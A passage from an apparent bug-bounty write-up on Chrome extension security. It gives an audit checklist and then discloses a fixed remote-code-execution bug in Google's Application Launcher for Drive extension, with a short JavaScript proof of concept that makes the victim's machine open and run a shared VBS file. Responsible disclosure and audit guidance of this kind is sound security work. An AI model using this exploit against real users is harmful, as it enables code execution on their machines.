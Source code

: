 - Search for keywords such as `.onMessage`, `.onConnect`, `.onRequest`, `.onMessageExternal` and audit messages to background pages
- Make sure nothing sensitive is stored in `chrome.storage` its viewable using `chrome.storage.local.get(null, console.log);` and `chrome.storage.sync.get(null, console.log);`
- Search `externally_connectable` and `content_scripts` for unsafe origins such as `http://*.google.com` and `https://storage.googleapis.com`
- Check for a message listener accessible to `postMessage` and verify the senders allowed.
- Try searching for all XSS sinks such as `scripting.executeScript`, `document.write`, `innerHTML =`, `location.href =`, `open()`
- CodeQL
- Check `web_accessible_resources` for clickjacking, scripts here will also bypass the sites CSP.

# RCE in Application Launcher For Drive (Fixed, Awarded $3133.70)

**URL:** <https://chrome.google.com/webstore/detail/application-launcher-for/lmjegmlicamnimmfhcmpkclmigmmcbeh>  
**Drive for desktop:** <https://www.google.com/drive/download/>

The lax rule that allows insecure origins: `"externally_connectable": { "matches": [ "://.google.com/*" ] }`

Run the following on any google subdomain including insecure `http://` ones.
The following code runs a VBS script on the victim resulting in RCE.

```js
let api = chrome.runtime.connect("lmjegmlicamnimmfhcmpkclmigmmcbeh", {
  name: "com.google.drive.nativeproxy",
});
let request =
  "native_opener/v2/3/" +
  btoa('["<VICTIM EMAIL>", "<SHARED FILE ID>","VkJTRmlsZQ",""]');
api.postMessage(request);
```

### Attack scenario

An attacker on the same network or a browser extension/XSS with any google subdomain can send messages to a proxy that opens whatever file they want shared in their google drive as long as it's synced.

No "Mark Of The Web" is set. <https://textslashplain.com/2016/04/04/downloads-and-the-mark-of-the-web/>

Fixed by changing `externally_connectable` to only `https://docs.google.com/*` and `https://drive.google.com/*` browser extensions with `<all_urls>` can still get an RCE with it. (WAI)  
A demo to get RCE: [extension](https://ndevtk.github.io/writeups/RCE.zip) [video](https://www.youtube.com/watch?v=BI-szRhjO3g)  
This could be fixed by adding `https://*.google.com` to `runtime_blocked_hosts` <https://github.com/NDevTK/DomainProtect>

# Perfetto UI leaks sensitive browser logs (Fixed, Awarded $5000)


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>